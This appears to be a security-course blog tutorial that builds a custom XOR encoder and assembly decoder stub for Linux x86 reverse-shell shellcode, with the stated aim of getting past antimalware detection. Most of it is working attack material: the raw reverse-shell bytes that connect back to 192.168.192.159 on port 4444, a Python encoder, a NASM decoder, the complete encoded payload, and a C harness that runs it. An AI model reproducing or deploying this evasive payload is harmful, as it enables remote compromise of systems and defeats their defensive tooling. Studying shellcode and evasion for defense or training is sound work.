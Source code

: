 ```yaml
---                                                                                                                                                                                                                                       
title: Custom Encoder
author: Stipe Marinovic
date: 2020-06-10 22:00:00 +0800                                                                                                                                                                                                           
categories: [Blogging, Tutorial]                                                                                                                                                                                                          
tags: [slae, shellcoding, encoder, decoder]                                                                                                                                                                                                                 
toc: true                                                                                                                                                                                                                                 
---                                                                                                                                                                                                                                       
```

                                                                                                                                                                                                                                          
## Introduction ##

Sending well known shell code to target machine would most probably be detected by antimalware solution . 
One way to bypass antimalware detection is to encode shell code and to have higher chances for sucessful bypass, custom encoder should be created and used.  
In this blog post we will go thru process of creating simple encoder and decored. 
As an example we will preform XOR operation on every shell code byte with value ```0x0F``` (encoding key) and add NOP (```\x90```) instrunction after every encoded shell code byte. 
This endocer will double shell code size which can be tricky if buffer space is small but for educational purposes we can ignore that. 
During decoding procedure, XOR operation will be preformed to restore original shell code and NOP instructions will be ignored.  

## Shell code ##

We can use reverse shell code and wrapper form previous [blog post](https://smarinovic.github.io/posts/Reverse-shell/) which tries to establish connection to defined remote address at defined port (in our case IP address is 192.168.192.159 and port is 4444). 

```
python wrapper.py 192.168.192.159 4444
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

## Encoder ##

Once we get opcodes for encoded shell code, we will use following python script to read thru defined bytearray (shell code opcodes) and preform XOR operation with ```0x0F``` key. 
After XOR opration, NOP (```\x90```) will be injected after every encoded byte. 
```
#!/usr/bin/python
import sys
import  random

# Custom reverse shell opcode (connect to 192.168.192.159 at port 4444)
shellcode = b"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# Encoder: XOR every byte with 0x0F and then insert x90

enc_shellcode=""                 # declare empty string

for x in bytearray(shellcode):   # for every byte in bytearray
   x=x^0x0f                      # preform XOR byte with 0x0F
   enc_shellcode+='0x%02x,'%x    # write encoded byte in new string
   enc_shellcode+='0x90,'        # add NOP (\x90) after every encoded byte in new string

# Print encoded opcode
print 'Encoded shellcode: ' + enc_shellcode
```
Encoded shell code is following:
```
python encoder.py 
Encoded shellcode: 0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0x3e,0x90,0xdd,0x90,0x3e,0x90,0xf9,0x90,0x69,0x90,0xb7,0x90,0x68,0x90,0x0e,0x90,0xbc,0x90,0x0d,0x90,0xbe,0x90,0x0e,0x90,0xbd,0x90,0x09,0x90,0xc2,0x90,0x8f,0x90,0x86,0x90,0xc8,0x90,0x3e,0x90,0xcf,0x90,0x69,0x90,0xb7,0x90,0x65,0x90,0x0e,0x90,0x3e,0x90,0xc6,0x90,0x5e,0x90,0x67,0x90,0xcf,0x90,0xa7,0x90,0xcf,0x90,0x90,0x90,0x69,0x90,0x67,0x90,0x1e,0x90,0x53,0x90,0x69,0x90,0x65,0x90,0x0d,0x90,0x86,0x90,0xf4,0x90,0x86,0x90,0xee,0x90,0xbd,0x90,0x19,0x90,0xc2,0x90,0x8f,0x90,0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0xbe,0x90,0x0c,0x90,0x3e,0x90,0xcf,0x90,0xbf,0x90,0x30,0x90,0x86,0x90,0xf4,0x90,0xf1,0x90,0xc6,0x90,0xc2,0x90,0x8f,0x90,0x7a,0x90,0xfb,0x90,0x3e,0x90,0xcf,0x90,0x5f,0x90,0x67,0x90,0x61,0x90,0x20,0x90,0x7c,0x90,0x67,0x90,0x67,0x90,0x20,0x90,0x20,0x90,0x6d,0x90,0x66,0x90,0x86,0x90,0xec,0x90,0x5f,0x90,0x86,0x90,0xed,0x90,0x5c,0x90,0x86,0x90,0xee,0x90,0xbf,0x90,0x04,0x90,0xc2,0x90,0x8f,0x90,
```

## Decoder ##

To sucessfuly decode encoded shell code, we need to preform XOR operation for every shell code byte with previously defined key ```0x0F```. 
Every other byte will be skipped as it is NOP (```0x90```) instrunction.  
We will use following registers for decoding: 
* EAX for XOR operations
* ECX as counter for decoding stub
* EDX as pointer to beggining of encoded (and later decoded) shell code
* ESI as pointer to byte which we need to decode
* EDI as pointer to memory address where decoded byte will be placed overwriting original byte

Stub will overwrite original encoded shell code with decoded one, but since we will skip every other byte (```0x90```) we will have some "garbage" left on the stack. Since running our shell code is primary goal we won't bother with garbage code at this point in time.

```
global _start

section .text
_start:
    jmp short call_decoder

    decode:
        pop esi                  ; pop pointer to shellcode in ESI
        xor eax, eax             ; clear EAX - used for XOR operations
        xor ecx, ecx             ; clear EXC - used as counter
        xor edi, edi             ; clear EDI - used as pointer to decoded shell code destination
        mov cl, len              ; move length of the shellcode in cl
        sar cl, 1                ; divide by 2 (since we are skipping every 2nd byte which is \x90)
        mov edx, esi             ; save pointer to beggining of shellcode from ESI to EDX
        mov edi, esi             ; save pointer to beggining of shellcode from ESI to EDI

    decoder_loop:
        mov  al, byte [esi]      ; move one byte from address pointed by ESI
        xor byte al, 0x0f        ; XOR first byte of the shellcode with 0x0f
        mov [edi], al            ; move new value from AL to address pointed by ESI

        inc esi                  ; increment ESI (to get to new address)
        inc esi                  ; increment ESI (to skip \x90 - NOP)
        inc edi                  ; increment EDI - pointer to decoded shellcode

        dec ecx                  ; decrement ECX (counter) by 1
        cmp cl, 0x1              ; compare if CL is eaqual to 1 and is so - jump to shellcode pointed by EDX
        jnz decoder_loop
        jmp edx

    call_decoder:
        call decode
        shellcode: db 0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0x3e,0x90,0xdd,0x90,0x3e,0x90,0xf9,0x90,0x69,0x90,0xb7,0x90,0x68,0x90,0x0e,0x90,0xbc,0x90,0x0d,0x90,0xbe,0x90,0x0e,0x90,0xbd,0x90,0x09,0x90,0xc2,0x90,0x8f,0x90,0x86,0x90,0xc8,0x90,0x3e,0x90,0xcf,0x90,0x69,0x90,0xb7,0x90,0x65,0x90,0x0e,0x90,0x3e,0x90,0xc6,0x90,0x5e,0x90,0x67,0x90,0xcf,0x90,0xa7,0x90,0xcf,0x90,0x90,0x90,0x69,0x90,0x67,0x90,0x1e,0x90,0x53,0x90,0x69,0x90,0x65,0x90,0x0d,0x90,0x86,0x90,0xf4,0x90,0x86,0x90,0xee,0x90,0xbd,0x90,0x19,0x90,0xc2,0x90,0x8f,0x90,0x3e,0x90,0xcf,0x90,0x3e,0x90,0xd4,0x90,0x3e,0x90,0xc6,0x90,0xbe,0x90,0x0c,0x90,0x3e,0x90,0xcf,0x90,0xbf,0x90,0x30,0x90,0x86,0x90,0xf4,0x90,0xf1,0x90,0xc6,0x90,0xc2,0x90,0x8f,0x90,0x7a,0x90,0xfb,0x90,0x3e,0x90,0xcf,0x90,0x5f,0x90,0x67,0x90,0x61,0x90,0x20,0x90,0x7c,0x90,0x67,0x90,0x67,0x90,0x20,0x90,0x20,0x90,0x6d,0x90,0x66,0x90,0x86,0x90,0xec,0x90,0x5f,0x90,0x86,0x90,0xed,0x90,0x5c,0x90,0x86,0x90,0xee,0x90,0xbf,0x90,0x04,0x90,0xc2,0x90,0x8f,0x90
        len equ $-shellcode

```

Assembly code needs to be compiled and linked in the usual way.. 
```
nasm -f elf32 -o decoder.o decoder.nasm
ld -z execstack -o decoder decoder.o
```

But to get opcode we need to modify the usual objdump/cut command as output has more that 6 columns, so instead of ```cut -f1-6``` we need to use ```cut -f1-7``` as follows:

```
objdump -d $1 |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

With modified command, extracted opcode is following:
```
"\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90"
```

## Seeing decoder in action ##

Next, we can use skeleton code to run and test if decoding is sucessfull. To compile it following command should be used:

```
gcc -fno-stack-protector -z execstack -m32 skeleton.c -o encoded_revshell -g
```

Skeleton file with encoded shell code:

```
#include <stdio.h>

unsigned char shellcode[] = "\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90";

int main()
{
        int (*ret)() = (int(*)())shellcode;
        printf("Size of shellcode: %d bytes.\n", sizeof(shellcode)); 
        ret();
}
```

By stepping thu program with GDB we can observe shell code decoding. ESI register is used for storing pointer to beggining of encoded shellcode.  
At the beggining of decoding stub we can see that ESI register is pointing to the beggining of encoded shellcode which is located at memory address: ```0x404067```. 

```
gdb-peda$ info register esi
esi            0x404067            0x404067
```

So in order to observe decoing, we will monitor first 10 bytes starting at ```0x404067``` memory address.
Before decoding starts we can see that memory address ```0x404067``` contain encoded shell code (0x3e, 0x90, 0xcf, 0x90, 0x3e, 0x90 ...)

* Initial data on address ```0x404067```  

```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x3e    0x90    0xcf    0x90    0x3e    0x90    0xd4    0x90
0x40406f <shellcode+47>:        0x3e    0x90
```

* content of the same address (```0x404067```) after few itterations:  
We can see that ```0x3e``` is decoded to ```0x31``` which is result of following operation ```XOR 0x0F, 0x3e``` and ```0x90``` from previous snippet is ignored and overwritten with result of ```XOR 0xfc, 0x0f``` operation. Also 3rd byte is replaced with 0x31 which is result of ```XOR 0x3e, 0x0f``` operation etc. 

```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0x90    0xd4    0x90
 decoded 1st opcode ------------^^^^
 NOP is replaced with 2nd opcode -------^^^^
 decoded 3rd opcode ----------------------------^^^^
 etc.
```

* content of the same address (```0x404067```) after some more itterations:  
We can see that decoded shell code does not contain added NOPs (```0x90```) and that all opcodes are XORed (0x3e XOR 0f = 0x31, 0xcf XOR 0x0f = 0xc0, etc.). Decoded opcodes overwrites original encoded opcodes:
```
gdb-peda$ x/10b 0x404067
0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0xc9    0x31    0xd2
0x40406f <shellcode+47>:        0x31    0xf6
```

Reverse shell is sucessfuly established once decoding is finished as show on following scren shot.

![Custom decoder working](https://smarinovic.github.io/assets/img/slae_00018.png)

